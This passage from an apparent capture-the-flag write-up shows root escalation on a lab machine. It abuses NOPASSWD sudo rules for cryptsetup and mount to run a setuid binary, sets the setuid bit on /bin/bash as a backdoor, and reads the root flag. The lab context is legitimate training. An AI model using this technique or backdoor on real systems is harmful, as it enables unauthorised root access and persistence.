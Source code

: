 Executed the last two commands from *xct’s* notes and copied the container to the box.

```bash
sudo umount /mnt && sudo cryptsetup luksClose vol

scp /tmp/vol pain@10.129.190.235:/home/pain/vol
```

Abused the sudoers permissions to mount the payload from the container.

```
pain@forwardslash:~$ sudo -l
Matching Defaults entries for pain on forwardslash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pain may run the following commands on forwardslash:
    (root) NOPASSWD: /sbin/cryptsetup luksOpen *
    (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/
    (root) NOPASSWD: /bin/umount ./mnt/
    
pain@forwardslash:~$ cd /

pain@forwardslash:/$ sudo /sbin/cryptsetup luksOpen ~/vol backup
Enter passphrase for /home/pain/vol: 

pain@forwardslash:/$ sudo /bin/mount /dev/mapper/backup ./mnt/
```

Successfully achieved RCE as root! So I created a backdoor and pwned the box. GGs!

```
pain@forwardslash:/mnt$ ./evil.o whoami
root

pain@forwardslash:/mnt$ ./evil.o "chmod +s /bin/bash"
pain@forwardslash:/mnt$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash

pain@forwardslash:/mnt$ bash -p
bash-4.4# whoami
root

bash-4.4# id
uid=1000(pain) gid=1000(pain) euid=0(root) egid=0(root) groups=0(root),1000(pain),1002(backupoperator)

bash-4.4# cat /root/root.txt
6619d16dd8bb2a99****************
```